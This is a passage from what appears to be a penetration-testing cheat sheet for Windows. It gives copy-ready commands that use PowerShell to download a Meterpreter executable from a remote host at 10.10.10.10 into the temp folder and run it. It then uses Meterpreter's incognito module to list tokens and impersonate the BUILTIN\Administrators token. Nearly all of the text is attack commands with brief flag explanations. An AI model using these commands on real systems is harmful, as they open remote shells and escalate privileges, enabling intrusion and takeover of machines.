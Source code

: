 
```powershell copy
Start-Process "shell-name.exe"
```
- Executes the Meterpreter shell.


### Download and run via cmd
```cmd copy
cd %temp%
```
- Changes to the temporary directory.


```cmd copy
powershell -c "Invoke-WebRequest -Uri 'http://10.10.10.10:80/shell-name.exe' -OutFile 'C:\Windows\Temp\shell-name.exe'"
```
- Downloads the Meterpreter executable using PowerShell.
- `-c`: Runs PowerShell command.
- `-Uri`: Specifies URL.
- `-OutFile`: Specifies output file.

```cmd copy
powershell -c "Start-Process 'C:\Windows\Temp\shell-name.exe'"
```
- Executes the Meterpreter shell via PowerShell.
- `-c`: Runs PowerShell command.

## Token Impersonation (Meterpreter)

### Load incognito
```bash copy
load incognito
```
- Loads the incognito module for token impersonation.


### List group tokens
```bash copy
list_tokens -g
```
- Lists group tokens available for impersonation.
- `-g`: Group tokens.

### Impersonate Administrators token
```bash copy
impersonate_token "BUILTIN\Administrators"
```
- Impersonates the Administrators group token.


### Get current user ID
```bash copy
getuid
```
- Displays the current user ID in Meterpreter.
